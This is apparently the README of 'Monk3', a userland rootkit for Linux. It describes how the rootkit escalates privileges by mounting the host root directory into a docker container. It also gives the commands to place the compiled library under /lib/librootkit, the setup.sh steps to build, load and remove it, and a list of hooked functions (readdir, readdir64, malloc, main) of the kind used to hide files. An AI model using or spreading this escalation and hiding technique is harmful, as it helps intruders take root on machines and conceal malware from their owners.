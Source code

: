 # Monk3 userland rootkit

### dependencies:
<ul>
    <li>docker</li>
</ul>

### my specs:

<ul>
    <li>Docker version 20.10.10, build tag v20.10.10</li>
    <li>Docker Alpine Linux container kernel version 5.13.19_1</li>
    <li>Void Linux kernel version 5.13.19_1</li>
    <li>gcc (GCC) 10.2.1 20201203</li>
</ul>


# how does it work?
Monk3 uses docker to escalate privileges and have access to the user's file system by mounting the root directory into /mnt and accessing it.

example:
```
cd /
docker run -v /:/mnt -it alpine
cd mnt
ls
```
then creates /lib/librootkit/ where the compiled source (monk3.lib.so) will remain.
```
mkdir /lib/librootkit
mv monk3.lib.so /lib/librootkit/monk3.lib.so
```

# configuration guide
to compile and run monk3, just make sure you have docker installed and that your hostname belongs to the same group as docker does
(setup.sh does this for you)

### compile and run rootkit:
```
chmod u=rwx setup.sh
./setup.sh -b
```

### delete and unload rootkit:
```
chmod u=rwx setup.sh
./setup.sh -r
```
# current hooked functions:
``` C
struct dirent *(*orig_readdir)(DIR *dir);
struct dirent64 *(*orig_readdir64)(DIR *dir);
static void *(*orig_malloc)(size_t) = NULL;
static int (*orig_main)(int, char **, char **);
```
